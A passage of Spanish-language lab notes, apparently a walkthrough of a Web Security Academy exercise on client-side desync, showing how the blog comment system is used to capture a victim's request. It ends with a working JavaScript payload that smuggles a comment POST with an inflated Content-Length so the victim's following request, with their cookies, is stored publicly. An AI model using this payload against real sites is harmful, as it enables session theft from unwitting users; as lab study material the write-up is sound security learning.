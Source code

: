 En esta clase localizamos un gadget útil dentro de la aplicación: el sistema de comentarios en los posts. Utilizamos el vector de desincronización previamente identificado para inyectar una petición parcial dentro del cuerpo de un comentario.

Al recargar el post, comprobamos que la petición ha sido reflejada parcialmente en el contenido visible, lo que demuestra que podemos capturar y almacenar partes de peticiones arbitrarias que luego serán accesibles públicamente.

Solucion
aqui mandamos una tipica consulta pero vemos que no da resultado como seria en una RS (Request Smuggling)
la diferencia en este payload es que si vemos en la parte de arriba podemos ver que le metimos 100 en CL pero abajo no se ve reflejado
![Pasted image 20250812205026.png](imagenes/Pasted image 20250812205026.png)
asi que para que se puede ejecutar una consulta se deberia aplicar en diferentes sockets asi que en esta caso vamos a intecerpar el apartado /en que era el redirect
![Pasted image 20250812205255.png](imagenes/Pasted image 20250812205255.png)
y como sabemos que estamos en un CSD pues normalmente si nosotro le dabamos send en el Attacker Request esperamos un error 400 pero aqui no se refleja
![Pasted image 20250812205517.png](imagenes/Pasted image 20250812205517.png)
asi que nosotros necesitamos hacer una coneccion TCP para que se puede ejecutar el payload para ello vamos a crear un grupo en el BS y lo configuramos a send group
![Pasted image 20250812205721.png](imagenes/Pasted image 20250812205721.png)
Cuando le damos a send aqui si podemos ver el error
![Pasted image 20250812205817.png](imagenes/Pasted image 20250812205817.png)
entonces para complementar el ataque vamos a interceptar un post y vamos a configurarlo en el BS
![Pasted image 20250812210134.png](imagenes/Pasted image 20250812210134.png)
lo configuramos tal que quede asi
![Pasted image 20250812210301.png](imagenes/Pasted image 20250812210301.png)
Entonces todo esto no lo podemos copiar y pasarlo al attacker
![Pasted image 20250812210545.png](imagenes/Pasted image 20250812210545.png)
ahora vamos a configurarlo
1.- (el comment lo pasamos hasta el final)
2.- (configurar la longitud real para no tener problemas)
![Pasted image 20250812210757.png](imagenes/Pasted image 20250812210757.png)
tal que quedaria asi
![Pasted image 20250812211038.png](imagenes/Pasted image 20250812211038.png)
donde lo vemos reflejado si nos vamos a la pagina donde esta el post lo veremos reflejado
![Pasted image 20250812211123.png](imagenes/Pasted image 20250812211123.png)
pero como podemos hacer para que la victima no vea este tipo de post donde muestre la infomacion para eso nos vamos a montar un script en JS donde me automatize esto

payload (
<script>
    smuggledRequest = [
      "POST /en/post/comment HTTP/1.1",
      "Host: 0a2700d203ea680480563a4e0009009d.h1-web-security-academy.net",
      "Cookie: session=10C0ZiNzSfrPlheSkA0EmCPoX1tgGb9H",
      "Content-Type: application/x-www-form-urlencoded",
      "Content-Length: 800",
      "",
"csrf=AYsRFi6GRECmO9Nfp6MdsDsoe4ew7FRQ&postId=6&name=test&email=test@test.com&website=https://callate.com&comment=test"
    ].join("\r\n")

    fetch("http://0a2700d203ea680480563a4e0009009d.h1-web-security-academy.net", {
      method: "POST",
      body: smuggledRequest,
      credentials: 'include',
      mode: "no-cors"
    });
</script>
)